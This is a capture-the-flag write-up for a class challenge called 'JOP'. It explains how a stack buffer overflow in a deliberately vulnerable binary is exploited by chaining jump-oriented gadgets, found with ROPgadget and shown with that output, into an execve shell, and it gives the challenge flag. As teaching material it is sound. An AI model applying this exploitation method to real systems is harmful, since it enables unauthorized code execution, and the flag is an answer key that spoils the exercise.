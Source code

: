 # JOP:Solution

The binary is compiled with NX and Full RELRO
```
checksec chal.bin   
[*] '/root/workspace/vuln/jop/chal/chal.bin'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

and is dynamically linked to GLIBC.
```
rabin2 -I chal.bin 
arch     x86
baddr    0x400000
binsz    12587
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Debian 12.2.0-9) 12.2.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
```

We can exploit the read() function (shown in high level language).
```
00401228      puts(str: "--------------------------------…")
00401237      puts(str: "Pack it up, pack it in, let me b…")
00401246      puts(str: "I came to win, battle me, that's…")
00401255      puts(str: "I won't ever slack up, punk, ya …")
00401264      puts(str: "Try and play the role and yo, th…")
00401273      puts(str: "                             - \x1b…")
00401282      puts(str: "--------------------------------…")
0040129d      void var_c
0040129d      printf(format: "<<< Stack: %p\n", &var_c)
004012ac      puts(str: "--------------------------------…")
004012c0      printf(format: "So get out your seat and jump ar…")
004012dd      void var_78
004012dd      return read(fd: 0, buf: &var_78, nbytes: 136)
```

In the function above there space set aside for the user input using var_c and can be seen in the disassembly here:
```
0040121a  4883ec70           sub     rsp, 112
```

112 + 8 = 120 bytes to overwrite and to check we can run the program and test it. Using cyclic to spit out 120 characters the program ends normally, adding 1 causes a seg fault.
Therefore the overflow is at 120.

The goal is to get a shell to cat the flag so we need to set up a syscall to execve, which means we need to set RAX, RDI, RSI, and RDX. Then we need to create our fake stack.

First I looked to mov something into RAX
```
ROPgadget --binary chal.bin | grep mov | grep rax
0x0000000000401203 : mov byte ptr [rax], 0 ; add byte ptr [rax], al ; jmp rdx
0x0000000000401052 : mov ch, byte ptr [rdi] ; add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x00000000004011cb : mov ebp, esp ; mov rax, 0x3b ; jmp rdx
0x00000000004010c7 : mov edi, 0x404010 ; jmp rax
0x00000000004011cd : mov rax, 0x3b ; jmp rdx
```

The last gadget seemed promising so I checked what was being moved into RAX and 0x3b is 59, which is the syscall number for execve.

Next I looked for mov and RDI.
```
ROPgadget --binary chal.bin | grep mov | grep rdi
0x0000000000401052 : mov ch, byte ptr [rdi] ; add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x00000000004011db : mov ebp, esp ; mov rdi, rbp ; jmp rdx
0x00000000004011da : mov rbp, rsp ; mov rdi, rbp ; jmp rdx
0x00000000004011dd : mov rdi, rbp ; jmp rdx
```

The last gadget would move RBP into RDI, so I just needed to pop RBP.
```
0x000000000040113d : pop rbp ; ret
```

RSI was next.
```
ROPgadget --binary chal.bin | grep rsi
0x00000000004011ff : mov ebp, esp ; mov rsi, 0 ; jmp rdx
0x0000000000401201 : mov rsi, 0 ; jmp rdx
```

There were only 2 available gadgets and the second one made sense. 

Last is RDX. Every other gadget has a jmp back to RDX. We want to make sure that RDX is 0.
```
ROPgadget --binary chal.bin | grep rdx | grep xor
0x00000000004011f3 : mov ebp, esp ; xor rdx, rdx ; jmp rcx
0x00000000004011f2 : mov rbp, rsp ; xor rdx, rdx ; jmp rcx
0x00000000004011f1 : push rbp ; mov rbp, rsp ; xor rdx, rdx ; jmp rcx
0x00000000004011f5 : xor rdx, rdx ; jmp rcx
```

Using the last gadget would mean put RDX in RCX.
```
ROPgadget --binary chal.bin | grep mov | grep rcx
0x00000000004011e7 : mov ebp, esp ; mov rcx, rdx ; jmp rdx
0x00000000004011f3 : mov ebp, esp ; xor rdx, rdx ; jmp rcx
0x00000000004011e6 : mov rbp, rsp ; mov rcx, rdx ; jmp rdx
0x00000000004011f2 : mov rbp, rsp ; xor rdx, rdx ; jmp rcx
0x00000000004011e9 : mov rcx, rdx ; jmp rdx
```

Then it jumps back to RDX like every other gadget has so far. Last we needed to be able to add 8 to RSP to advance the program counter.
There was only one gadget that moved anything into RDX.
```
0x00000000004011b5 : pop rsp ; mov rdx, 0x40119d ; jmp rdx
```

Looking at 0x40119d we see:
```
0040119d  4883c408           add     rsp, 8
004011a1  4d31c9             xor     r9, r9
004011a4  4983c108           add     r9, 0x8
004011a8  4901e1             add     r9 {arg1}, rsp
004011ab  41ff21             jmp     qword [r9 {arg1}]
```

Creating the fake stack is next, which we can do using the stack leak and a little bit of GDB analysis. 

Then put all the pieces together in a chain (in the included solve script with it's own comments).

Send the chain at the end of the script and get the flag!
```
flag{G3t_uS3d_2_1_Styl3_and_yo_and_I_m1ghT_sw1tch}
```

Resources: 
* Class slides
* Demo solve script
* Chandler
* Robbie
* Louie
